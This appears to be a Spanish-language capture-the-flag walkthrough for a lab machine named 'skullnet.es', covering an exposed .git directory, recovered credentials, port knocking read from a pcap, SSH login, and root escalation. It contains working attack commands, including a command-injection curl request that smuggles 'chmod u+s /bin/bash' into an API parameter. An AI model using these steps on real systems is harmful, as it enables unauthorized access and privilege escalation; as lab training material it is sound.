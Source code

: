 nmap: 80

![image](https://github.com/user-attachments/assets/bbbb702f-524b-4b3b-9c7e-66352f5a510b)

---
agregamos "skullnet.es" en nano /etc/host y entramos a la pagina

![image](https://github.com/user-attachments/assets/01fa9c26-8511-47e1-8c79-b8ea4e2f6d74)

no hay nada, hacemos un nmap mas profundo en el puerto 80
da un git. quedaría así la búsqueda: http://skullnet.es/.git/

![image](https://github.com/user-attachments/assets/9df19053-5d80-4100-96f7-3ba56452a335)

quedamos donde hay muchos archivos y nos pasamos los archivos a nuestra terminal

![image](https://github.com/user-attachments/assets/324ea04e-2e75-4fa4-a049-594c42842120)

lo pasamos con: 
> wget -r http://skullnet.es/.git/

hacemos un "git log" para ver los archivos modificados y da dos:
> fix y First commit

hacemos un: 
> git checkout -- . 

hacemos otra vez el "git log" y nos copiamos esto: 
> 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![image](https://github.com/user-attachments/assets/89472b3c-802c-4b15-867c-84493aa96f4f)


colocamos:

     git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

y nos da: 

>Unstaged changes after reset:
>D authentication.txt
>D network.pcap

colocamos "git diff" y vemos los cambios que se han realizado

volvemos hacer un "git checkout -- ." y tenemos los archivos

entramos al authentication.txt y nos da:
>cat authentication.txt 
>Hello skulloperator, as you know, we are implementing a new authentication mechanism to avoid brute-forcing...
>This credential and the attached network file will be enough. I know you will get it ;)
>+%7nj^g!DQxp]a>c4v&0

el final del resultado de esos paso: 

![image](https://github.com/user-attachments/assets/116bd170-09b3-4adb-97df-ea62674730e1)


la ultima es una posible contraseña, pero igual tenemos el archivo de red adjuntado que es el "network.pcap" que es un wireshark
lo abrimos: wireshark network.pcap

abrirá wireshark con las reglas capturadas y las revisaremos

las primeras 5 peticiones son mas color gris y hace peticiones en los puertos:
> 1000, 12000, 5000, 22 y 38118
> 
![image](https://github.com/user-attachments/assets/61641d93-d894-4b88-bdd1-d82df150a6ad)


como el puerto 22 esta cerrado hacemos un: 

     knock -v 172.18.0.2 1000 12000 5000 -d 4

se abrirá el puerto 22 y tenemos el usuario como contraseña que menciono antes: 
> skulloperator / +%7nj^g!DQxp]a>c4v&0

y estamos dentro

![image](https://github.com/user-attachments/assets/751206d3-a53e-4c66-b70c-97520bfa2b35)

ahora escalamos

al hacer un sudo -l o find, no muestra nada

al hacer un "ps -faux" muestra que se ejecuta un "cron -P" donde se ejecuta un archivo : 
>bin/sh -c python3 /var/www/skullnet.es/skullnet_api.py
>
![image](https://github.com/user-attachments/assets/39bf88d3-a708-47ee-8b38-85e850f3d675)


ingresamos a la ruta, entramos con nano al skullnet_api, pero no tenemos permisos de escritura pero si de lectura

dentro muestra que se abre un puerto 8081 que dentro se pueden ejecutar comando como "ls" o "whoami" y para que funcione se tiene que mandar un token de autorización que nos permita ejecutar y dentro hay una "AUTH_KEY_BASE64 = "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=="
"
![image](https://github.com/user-attachments/assets/9d73fadc-548b-465d-b1bc-6840052e41d2)


lo sacamos con:

    echo 'd2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=' | base 64 -d 

>nos da: we_are_bones_513546516486484

![image](https://github.com/user-attachments/assets/b0052559-89ea-4203-82a5-c8878bf8f1bd)


en el código aparece que hay que iniciar con una palabra que comience por "basic"

ejecutamos el comando:

    curl 127.0.0.1:8081?exec?=whoami -H "authorization: Basic we_are_bones_513546516486484"

ahora en el terminal victima hacemos un: 
 
    curl 127.0.0.1:8081?exec=whoami -H "Authorization: Basic we_are_bones_513546516486484"

>que nos mostrara: root

![image](https://github.com/user-attachments/assets/17b3323e-ccb5-4f3f-8985-f7d18390168b)

seguimos probando aparte del whoami, mandamos un id para esta pagina: https://www.urlencoder.org/

quedaría: whoami%3Bid

y ahora quedaría así: 

    curl 127.0.0.1:8081?exec=whoami%3Bid -H "Authorization: Basic we_are_bones_513546516486484"

que nos da los grupos con el id

![image](https://github.com/user-attachments/assets/f40edb7f-efa0-458f-8859-6703161115c9)


ya que funciona le intentamos dar permisos así:
> whoami;chmod u+s /bin/bash

y quedaría así el código: 

    curl 127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash -H "Authorization: Basic we_are_bones_513546516486484"

lo lanzamos aparece solo root, vemos si cambio los permisos 
> ls -ls /bin/bash

ahora aparece en rojo, lanzamos un bash -p

![image](https://github.com/user-attachments/assets/af2c70ad-b1b8-4a0f-9afc-6dd54e17924e)

y somos root! 

